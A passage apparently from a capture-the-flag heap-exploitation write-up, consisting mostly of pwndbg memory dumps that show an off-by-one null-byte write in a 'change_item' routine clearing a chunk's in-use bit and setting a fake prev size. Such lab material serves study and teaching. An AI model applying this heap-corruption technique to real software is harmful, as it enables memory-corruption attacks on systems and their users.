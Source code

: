 ```
0x228a0b0:	0x3030303030303030	0x3030303030303030
0x228a0c0:	0x3030303030303030	0x3030303030303030
0x228a0d0:	0x3030303030303030	0x3030303030303030
0x228a0e0:	0x3030303030303030	0x3030303030303030
0x228a0f0:	0x3030303030303030	0x3030303030303030
0x228a100:	0x3030303030303030	0x3030303030303030
0x228a110:	0x3030303030303030	0x3030303030303030
0x228a120:	0x0000000000000000	0x0000000000000071
0x228a130:	0x3131313131313131	0x3131313131313131
0x228a140:	0x3131313131313131	0x3131313131313131
0x228a150:	0x3131313131313131	0x3131313131313131
0x228a160:	0x3131313131313131	0x3131313131313131
0x228a170:	0x3131313131313131	0x3131313131313131
0x228a180:	0x3131313131313131	0x3131313131313131
0x228a190:	0x3131313131313131	0x0000000000000101
0x228a1a0:	0x3232323232323232	0x3232323232323232
0x228a1b0:	0x3232323232323232	0x3232323232323232
0x228a1c0:	0x3232323232323232	0x3232323232323232
0x228a1d0:	0x3232323232323232	0x3232323232323232
0x228a1e0:	0x3232323232323232	0x3232323232323232
0x228a1f0:	0x3232323232323232	0x3232323232323232
0x228a200:	0x3232323232323232	0x3232323232323232
0x228a210:	0x3232323232323232	0x3232323232323232
0x228a220:	0x3232323232323232	0x3232323232323232
0x228a230:	0x3232323232323232	0x3232323232323232
0x228a240:	0x3232323232323232	0x3232323232323232
0x228a250:	0x3232323232323232	0x3232323232323232
0x228a260:	0x3232323232323232	0x3232323232323232
0x228a270:	0x3232323232323232	0x3232323232323232
0x228a280:	0x3232323232323232	0x3232323232323232
0x228a290:	0x0000000000000000	0x0000000000000021
0x228a2a0:	0x3333333333333333	0x3333333333333333
0x228a2b0:	0x0000000000000000	0x0000000000020ce1
0x228a2c0:	0x0000000000000000	0x0000000000000000
```
ni again and again
```
   0x400c27 <change_item+260>    mov    byte ptr [rax], 0
 ► 0x400c2a <change_item+263>    jmp    change_item+275 <change_item+275>
```
101 changed to 100(p set to 0), prev size 0x170
```
pwndbg> x/90gx 0x228a000
0x228a000:	0x0000000000000000	0x0000000000000021
0x228a010:	0x0000000000400896	0x00000000004008b1
0x228a020:	0x0000000000000000	0x0000000000000101
0x228a030:	0x3030303030303030	0x3030303030303030
0x228a040:	0x3030303030303030	0x3030303030303030
0x228a050:	0x3030303030303030	0x3030303030303030
0x228a060:	0x3030303030303030	0x3030303030303030
0x228a070:	0x3030303030303030	0x3030303030303030
0x228a080:	0x3030303030303030	0x3030303030303030
0x228a090:	0x3030303030303030	0x3030303030303030
0x228a0a0:	0x3030303030303030	0x3030303030303030
0x228a0b0:	0x3030303030303030	0x3030303030303030
0x228a0c0:	0x3030303030303030	0x3030303030303030
0x228a0d0:	0x3030303030303030	0x3030303030303030
0x228a0e0:	0x3030303030303030	0x3030303030303030
0x228a0f0:	0x3030303030303030	0x3030303030303030
0x228a100:	0x3030303030303030	0x3030303030303030
0x228a110:	0x3030303030303030	0x3030303030303030
0x228a120:	0x0000000000000000	0x0000000000000071
0x228a130:	0x3131313131313131	0x3131313131313131
0x228a140:	0x3131313131313131	0x3131313131313131
```